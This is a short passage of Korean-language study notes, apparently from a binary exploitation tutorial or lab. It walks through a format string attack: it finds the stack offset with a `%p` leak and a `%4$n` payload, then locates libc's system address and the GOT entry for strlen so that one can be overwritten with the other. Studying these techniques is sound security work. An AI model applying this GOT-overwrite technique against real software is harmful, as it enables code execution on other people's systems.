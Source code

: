 
`AAAA%4$n`  : 네번째 출력 

```
pwndbg> r
Starting program: /.../chap.02/format_string/got

AAAA,%8p,%8p,%8p,%8p,%8p,%8p,%8p,%8p,%8p,...

AAAA,    0x80,0xf7fb25a0,0xf7e8d9ab,0x41414141,0x7038252c,0x7038252c,...
```

- `strlen_got` 에 `system_addr` 로 write

```
pwndbg> p system
$1 = {<text variable, no debug info>} 0xf7e37060 <__libc_system>

pwndbg> x/10i 0x8048370
   0x8048370 <strlen@plt>:      jmp    DWORD PTR ds:0x804a014
```


